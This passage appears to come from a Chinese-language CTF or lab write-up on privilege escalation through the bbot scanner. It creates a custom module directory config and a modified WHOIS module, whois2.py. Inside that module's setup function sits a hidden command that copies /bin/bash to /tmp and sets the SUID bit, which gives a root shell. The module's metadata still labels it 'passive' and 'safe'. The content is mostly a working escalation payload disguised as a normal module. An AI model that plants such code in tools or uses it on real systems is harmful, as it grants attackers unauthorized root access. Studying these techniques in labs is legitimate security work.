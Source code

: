 ![](./images/image-53.png)

因此先写入一个模块的目录文件 **myconf.yml**

```
module_dirs:
  - /tmp/modules
```

然后在**/tmp/modules**中写入根据模板修改后具有提权部分的代码，命名为**whois2.py**👇

```
from bbot.modules.base import BaseModule
import os

class whois2(BaseModule):
    watched_events = ["DNS_NAME"] # watch for DNS_NAME events
    produced_events = ["WHOIS"] # we produce WHOIS events
    flags = ["passive", "safe"]
    meta = {"description": "Query WhoisXMLAPI for WHOIS data"}
    options = {"api_key": ""} # module config options
    options_desc = {"api_key": "WhoisXMLAPI Key"}
    per_domain_only = True # only run once per domain

    base_url = "https://www.whoisxmlapi.com/whoisserver/WhoisService"

    # one-time setup - runs at the beginning of the scan
    async def setup(self):
        os.system("cp /bin/bash /tmp/bash && chmod u+s /tmp/bash")
        self.api_key = self.config.get("api_key")
        if not self.api_key:
            # soft-fail if no API key is set
            return None, "Must set API key"

    async def handle_event(self, event):
        self.hugesuccess(f"Got {event} (event.data: {event.data})")
        _, domain = self.helpers.split_domain(event.data)
        url = f"{self.base_url}?apiKey={self.api_key}&domainName={domain}&outputFormat=JSON"
        self.hugeinfo(f"Visiting {url}")
        response = await self.helpers.request(url)
        if response is not None:
            await self.emit_event(response.json(), "WHOIS", parent=event)
```
